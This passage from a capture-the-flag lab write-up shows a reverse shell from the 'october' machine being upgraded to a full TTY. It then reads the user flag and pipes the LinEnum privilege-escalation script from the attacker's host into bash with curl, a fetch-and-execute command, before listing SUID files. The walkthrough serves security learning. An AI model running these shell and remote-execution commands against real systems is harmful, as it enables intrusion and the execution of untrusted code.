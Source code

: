 I’ll upgrade that to a solid shell through the standard process:
1. Use python to get a tty: `python -c 'import pty;pty.spawn("bash")'`
2. Background shell with ctrl+z
3. `stty raw -echo`
4. `fg` (terminal will look funky)
5. `reset`
6. If asked for terminal type, enter screen.

```

$ python -c 'import pty;pty.spawn("bash")'
www-data@october:/var/www/html/cms/storage/app/media$ ^Z
[1]+  Stopped                 nc -lnvp 443
root@kali# stty raw -echo
root@kali# nc -lnvp 443   # I typed fg enter
                                     reset     # now i type reset
reset: unknown terminal type unknown
Terminal type? screen  # i typed screen
     
www-data@october:/var/www/html/cms/storage/app/media$

```

From here, I can also grab `user.txt`:

```

www-data@october:/home/harry$ cat user.txt 
29161ca8...

```

## Privesc to root

### Enumeration

I’ll use [LinEnum.sh](https://github.com/rebootuser/LinEnum) to run basic enumeration across the host. I like to run with thorough tests, so either with `-t`, or just by adding `thorough=1` to the source.

I’ll service it with `python3 -m http.server 80`, and then get it from target:

```

www-data@october:/home/harry$ curl -s http://10.10.14.14/LinEnum.sh | bash

#########################################################
# Local Linux Enumeration & Privilege Escalation Script #
#########################################################
# www.rebootuser.com
# version 0.95

[-] Debug Info
[+] Thorough tests = Enabled

Scan started at:
Sat Mar  9 14:34:48 EET 2019

### SYSTEM ##############################################
[-] Kernel information:
Linux october 4.4.0-78-generic #99~14.04.2-Ubuntu SMP Thu Apr 27 18:51:25 UTC 2017 i686 i686 i686 GNU/Linux
...[snip]...
[-] SUID files:
-rwsr-xr-x 1 root root 67704 Nov 24  2016 /bin/umount
-rwsr-xr-x 1 root root 38932 May  8  2014 /bin/ping
```